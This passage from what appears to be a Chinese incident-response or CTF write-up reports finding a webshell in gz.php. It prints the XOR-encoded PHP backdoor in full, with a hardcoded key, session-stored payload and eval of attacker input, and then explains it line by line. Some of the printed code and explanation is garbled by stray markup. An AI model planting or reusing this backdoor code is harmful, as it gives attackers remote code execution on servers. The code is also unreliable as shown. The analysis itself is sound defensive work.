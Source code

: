 发现里面没啥内容，不过没关系我们还有两个可以进行查看，继续分析另外两个PHP文件；

​![在这里插入图片描述](assets/net-img-37f5526f78364d359a76ee93c5a48b6c-20240628211453-jggk3if.png)​

最后终于在gz.php里面发现了；

	<?php  
	@session_start();  
	@set_time_limit(0);  
	@error_reporting(0);  
	function encode($D,$K){  
	    for($i=0;$i<strlen($D);$i++) {  
	        $c =$K[$i+1&15];  
	        $D[$i] = $D[$i]^$c;  
	    }  
	    return $D;  
	}  
	//027ccd04-5065-48b6-a32d-77c704a5e26d  
	$payloadName='payload';  
	$key='3c6e0b8a9c15224a';  
	$data=file_get_contents("php://input");  
	if ($data!==false){==    ==$data=encode($==​==data,$key);if (isset(==​==$_SESSION[$==​==payloadName])){==        ==$payload=encode($==​==_SESSION[==​==$payloadName],$==​==key);if (strpos($payload,&quot;getBasicsInfo&quot;)===false){==            ==$payload=encode($==​==payload,$key);}eval($payload);echo encode(@run(==​==$data),$==​==key);}else{if (strpos($data,&quot;getBasicsInfo&quot;)!==false){  
	            $_SESSION[$payloadName]=encode($data,$key);  
	        }  
	    }  
	}

简单分析一下这段恶意代码；

1. ​`@session_start();`​：启动会话
2. ​`@set_time_limit(0);`​：设置脚本执行时间限制为无限制
3. ​`@error_reporting(0);`​：关闭错误报告
4. ​`function encode(K){...}`​：定义了一个名为 `encode`​ 的函数，它接受两个参数 `$D`​ 和 `$K`​。这个函数看起来像是一个简单的异或编码函数，用于对数据进行加密或解密。它使用 `$K`​ 作为密钥，对 `$D`​ 中的每个字符进行异或操作。
5. 接下来的几行代码定义了 `$payloadName`​、`$key`​ 和 `$data`​ 变量。`$payloadName`​ 是用于存储有效载荷的会话变量名，`$key`​ 是用于编码的密钥，`$data`​ 是从 `php://input`​ 流中读取的数据。
6. ​`if ($data!==false){...}`​：如果从 `php://input`​ 读取的数据不是 `false`​（即成功读取了数据），则执行以下代码块。
7. ​`if (isset(payloadName])){...}`​：检查 `$payloadName`​ 对应的会话变量是否已设置。
8. ​`if (strpos($payload,"getBasicsInfo")===false){...}`​：检查 `$payload`​ 变量中是否包含字符串 `"getBasicsInfo"`​。
9. ​`eval($payload);`​：如果 `$payload`​ 变量包含 `"getBasicsInfo"`​ 字符串，则执行 `$payload`​ 变量中的 PHP 代码。
10. ​`echo encode(@run(key);`​：如果 `$data`​ 包含 `"getBasicsInfo"`​ 字符串，则执行 `@run($data)`​ 函数，并将结果编码后输出。

总结：

> 这段代码的目的是接收通过 `php://input`​ 流发送的数据，对其进行编码，并根据会话变量中的内容执行特定的 PHP 代码。这通常用于隐藏恶意代码或后门，使得攻击者可以通过特定的请求触发执行。
